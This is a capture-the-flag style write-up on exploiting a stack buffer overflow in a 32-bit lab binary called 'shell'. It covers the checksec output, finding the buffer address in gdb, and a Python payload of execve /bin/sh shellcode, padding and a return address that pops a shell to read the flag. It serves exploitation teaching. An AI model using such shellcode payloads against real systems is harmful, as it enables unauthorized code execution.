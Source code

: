 ```yaml
---
description: Writing shellcode, but the buffer isn't provided?
---
```


# shell

{% file src="../../.gitbook/assets/shell.zip" %}

This binary is arguably more complex than `location`, and will be a lot more annoying. We'll understand why this is the case in a minute, but it lives up to the description that shellcodes may not be a good solution in all cases.

### Security Measures

Checking security, we see that

```bash
$ checksec shell
[*] '/home/joybuzzer/Documents/vunrotc/public/02-shellcodes/shell/src/shell'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x8048000)
    Stack:    Executable
    RWX:      Has RWX segments
```

We notice the stack is executable, meaning that shellcode is a possibility. The existence of a buffer overflow means that we can overwrite the return address of the function to jump to our shellcode.

We note that PIE is turned off. For the sake of simplicity, ASLR is turned off on the remote server, meaning that addresses will be static. This means that the write location is going to be static.

### Static Analysis

Checking the functions of the binary, it seems that `main()` and `read_in()` are the only functions that aren't standard library functions. Since there is no `win()`, we need to get the flag another way. We choose to pop a shell because (1) the stack is executable, (2) the stack is smashable, and (3) we can't get the flag any other way.

We see that `read_in()` allocates a buffer that is `0x134` large for our input. This is a _lot_ of room for us to use for shellcode.

### Crafting a Payload

This will be very similar to how it was done in `location`, so many details are omitted.

We use the same shellcode because the code follows the same architecture. We know that we need to adjust the buffer to size `0x138` to reach the return pointer.

The main difference is getting the address to jump. Unlike `location`, we are not provided this address. However, we discussed earlier that the address is statically chosen, meaning we have a tactical advantage. By looking in `gdb` at the location the binary chooses for writing, we have the address.

```as
gef➤  p/x $ebp-0x134
$1 = 0xffffd484
```

We use this for our address we jump to. This makes the payload:

```python
payload = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
payload = payload.ljust(0x138, b'A')
payload += p32(0xffffd484)
```

### Sending it Off

Like the other binaries, we define the process and send it off. Just like that, we pop a shell and can `cat flag.txt` to get the flag.

_**Some Final Notes**: This threat model is implausible in reality. Having this many security features disabled is not something you're likely to see. This is more of an intro as to what shellcode is capable of. You should understand the basics of what the shellcode does and then how to execute shellcode against a binary._
